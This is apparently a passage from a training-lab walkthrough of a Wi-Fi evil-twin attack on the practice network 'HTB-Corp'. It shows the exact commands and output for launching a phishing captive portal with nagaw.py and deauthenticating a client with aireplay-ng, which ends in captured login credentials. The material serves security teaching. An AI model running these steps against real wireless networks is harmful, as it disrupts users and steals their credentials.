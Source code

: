 They will open a new terminal, switch to the `root` user, navigate to the `/opt/Nagaw` directory, and use the `nagaw.py` Python script to create a fake captive portal using the `demo` template:

Code: shell

```shell
sudo -s
cd /opt/Nagaw
python2 nagaw.py -i wlan1 -o wlan2 -t demo
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# cd /opt/Nagaw
root@HTB-Corp:/opt/Nagaw# python2 nagaw.py -i wlan1 -o wlan2 -t demo

[*] Starting at 2025-01-09 12:00 ...
[*] Starting dnsmasq ...
[*] Cleaning iptables rules from the system ...
[*] Configuring NAT for providing Internet via wlan2 ...
[*] Configuring iptables for redirecting HTTP(s) to this host ...
[*] Loading phishing scenarios from /opt/Nagaw/template-pages ...
[*] Selecting "Victim Company WiFi Login Page" template ...
[*] Starting HTTP/HTTPS server at ports 80/443 ...
```

Next, students will open a new terminal, switch to the `root` user, and use `aireplay-ng` to perform de-authentication using the previously obtained BSSIDs (MAC addresses) of the `HTB-Corp` network and the client connected to it:

Code: shell

```shell
sudo -s
sudo aireplay-ng -0 3 -a 9C:9A:03:39:BD:7A -c F2:52:84:C4:CB:75 wlan0mon
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# sudo aireplay-ng -0 3 -a 9C:9A:03:39:BD:7A -c F2:52:84:C4:CB:75 wlan0mon

12:04:08  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
12:04:08  Sending 64 directed DeAuth (code 7). STMAC: [F2:52:84:C4:CB:75] [ 0| 0 ACKs]
12:04:09  Sending 64 directed DeAuth (code 7). STMAC: [F2:52:84:C4:CB:75] [ 0| 0 ACKs]
12:04:09  Sending 64 directed DeAuth (code 7). STMAC: [F2:52:84:C4:CB:75] [ 0| 0 ACKs]
```

After conducting the de-authentication, students will notice the captured credentials of the user in the `nagaw.py` process, alongside the username:

```
root@HTB-Corp:/opt/Nagaw# python2 nagaw.py -i wlan1 -o wlan2 -t demo

[*] Starting at 2025-01-09 12:00 ...
[*] Starting dnsmasq ...
[*] Cleaning iptables rules from the system ...
[*] Configuring NAT for providing Internet via wlan2 ...
[*] Configuring iptables for redirecting HTTP(s) to this host ...
[*] Loading phishing scenarios from /opt/Nagaw/template-pages ...
[*] Selecting "Victim Company WiFi Login Page" template ...
[*] Starting HTTP/HTTPS server at ports 80/443 ...
[+] New Credentials obtained from 10.0.0.89 :
